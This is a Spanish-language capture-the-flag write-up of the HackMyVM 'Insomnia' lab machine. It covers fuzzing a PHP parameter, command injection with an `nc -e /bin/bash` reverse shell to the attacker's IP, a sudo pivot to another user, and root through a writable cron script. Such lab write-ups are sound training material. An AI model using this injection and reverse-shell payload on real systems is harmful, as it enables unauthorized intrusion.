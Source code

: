 +++
title = "Insomnia"
date = 2024-02-07T19:41:10-06:00
summary="Another machine by sml"
draft=false
tags=["pentesting","hackmyvm","easy","RCE","php","fuzzing"]
series=["Hackmyvm Fácil"]
series_order=5
+++
## Prefacio
Recién empece clases otra vez, entonces lo mas probable es que la pagina se actualice de manera irregular, en la sección de maquina por lo menos. Nuevamente, si estas leyendo esto, muchas gracias por tu tiempo.

## Información de la maquina
| Nombre      | Insomnia                                                         | 
| ---------- | ---------------------------------------------------------------- |
|Sistema Operativo|Linux|
| Autor     | alienum                                                                 |
| Sitio      | [hackmyvm](https://hackmyvm.eu/machines/machine.php?vm=Insomnia) |
| Dificultad | Fácil                                                                 |

## Reconocimiento y enumeración

Corremos nuestro escaneo de NMAP:

![](imagenes/Pasted%20image%2020240207195749.png)

**Nota: Se me corto la energía eléctrica cuando esta tratando de resolver esta maquina y me toco reañadirla a virtualbox para que trabajara bien nuevamente, entonces, en vez de .24 al final de la dirección IP, ahora verán .25.**

Revisemos la pagina web:

![](imagenes/Pasted%20image%2020240207201941.png)

Un chat, revisemos el código fuente:

![](imagenes/Pasted%20image%2020240207202031.png)

Tenemos un script de *javascript* que es el que corre la sesión de chat, tal vez podamos hacer *XSS* en esta pagina, pero antes que nada, intentemos enumerar la pagina web.

![](imagenes/Pasted%20image%2020240207202806.png)

Interesante, revisemos cada uno de esos archivos en la pagina web:

### chat.txt

![](imagenes/Pasted%20image%2020240207202846.png)

Un registro del chat, sigamos revisando.

### administration.php

![](imagenes/Pasted%20image%2020240207203031.png)

Parece ser que podemos **llamar** un archivo aquí, pero, no sabemos el nombre de la variable que el script php esta usando, entonces, vamos a hacer fuzzing con gobuster and y encontrar el nombre de variable correcto con este comando: `gobuster fuzz -u http://192.168.25.25:8080/administration.php?FUZZ=prueba -w /usr/share/seclists/Discovery/Web-Content/common.txt --exclude-length 65
`
![](imagenes/Pasted%20image%2020240207203709.png)

Bien, encontramos el nombre de variable, revisemos la pagina:

![](imagenes/Pasted%20image%2020240207203848.png)

Eso es bueno, aquí podemos ver el mensaje que escribimos antes, probemos a ver si podemos ejecutar algún comando.

![](imagenes/Pasted%20image%2020240207204758.png)

No sabemos específicamente que hace el script PHP, podemos suponer que usa un `cat <archivo>` con la función `system("cmd")` o algo asi. Ahora, intentemos el siguiente comando a ver si podemos obtener una reverse shell en nuestra maquina: `abc;nc -e /bin/bash 192.168.25.5 4444`

## Acceso inicial

![](imagenes/Pasted%20image%2020240207205056.png)

Ahi esta, primero lo primero, mejoremos nuestra shell:

![](imagenes/Pasted%20image%2020240207205301.png)

Encontramos la bandera de usuario, ahora veamos como podemos cambiar a otro usuario, o si es posible escalar privilegios:

![](imagenes/Pasted%20image%2020240207205430.png)

Interesante, veamos que hace el script:

![](imagenes/Pasted%20image%2020240207205615.png)

Revisando la pagina de ayuda:

![](imagenes/Pasted%20image%2020240207205629.png)

Este comando inicia un servidor web en el puerto 8080, pero, lo hace via la `terminal bash`, entonces, tal vez podemos reemplazar los contenidos y ejecutar una shell bash, con los privilegios del usuario `julia`.

***
### Nota: Resolución de problemas
En este punto, no podia editar el archivo con `echo` y obtenía el siguiente error `bash: echo: write error: No space left on device`, entonces, para arreglar ese problema, me toco *redimensionar el disco virtual de la maquina* para que funcionara otra vez, por favor tener en cuenta que, si hacen esto cuando la maquina ha corrido otra vez, la pueden romper.En mi caso, simplemente no me mostraba la pagina web, por lo cual les tocara importar la maquina otra vez. Entonces, si estas siguiendo este writeup, **te recomiendo redimensionar el disco virtual de esta maquina de antemano. Ahora, sigamos**.
***
![](imagenes/Pasted%20image%2020240207212415.png)

Bien, revisemos el script otra vez:

![](imagenes/Pasted%20image%2020240207212447.png)

Ahora, intentemos correrlo como el usuario `julia` usando `sudo -u julia /bin/bash /var/www/html/start.sh`:

## Escalada de privilegios

![](imagenes/Pasted%20image%2020240207212742.png)

Entramos como `julia`, veamos que podemos hacer:

![](imagenes/Pasted%20image%2020240207212912.png)

Encuentro este script de interés en `/etc/crontab`, revisemos que es lo que hace:

![](imagenes/Pasted%20image%2020240207213059.png)

Parece ser que todo lo que hace es revisar si algún tipo de servicio esta activo, y si no esta corriendo, lo inicia. Revisemos los privilegios de este archivo:

![](imagenes/Pasted%20image%2020240207213159.png)

Lotería, editemos este archivo con una payload, para que envié una sesión con privilegios de administrador a nuestra maquina:

![](imagenes/Pasted%20image%2020240207213436.png)

![](imagenes/Pasted%20image%2020240207213614.png)

En lo que ingresamos este comando, deberíamos obtener esto en nuestro escucha de netcat:

![](imagenes/Pasted%20image%2020240207213651.png)

Obtenemos privilegios de administrador, obtengamos la bandera de root, y terminemos de comprometer esta maquina:

![](imagenes/Pasted%20image%2020240207213853.png)

¡Gracias por tu tiempo y buena suerte en futuras maquinas!

## Cosas que aprendí de esta maquina
- Cuando me encuentre con un archivo `php`, intentar hacer fuzzing de variables, estas puede ser que llamen ciertos archivos a traves del script php, permitiéndonos hacer uso de un **remote command execution** para el acceso inicial.
- Redimensionar el tamaño del disco virtual de la maquina si me encuentro el error `bash: echo: write error: No space left on device` otra vez.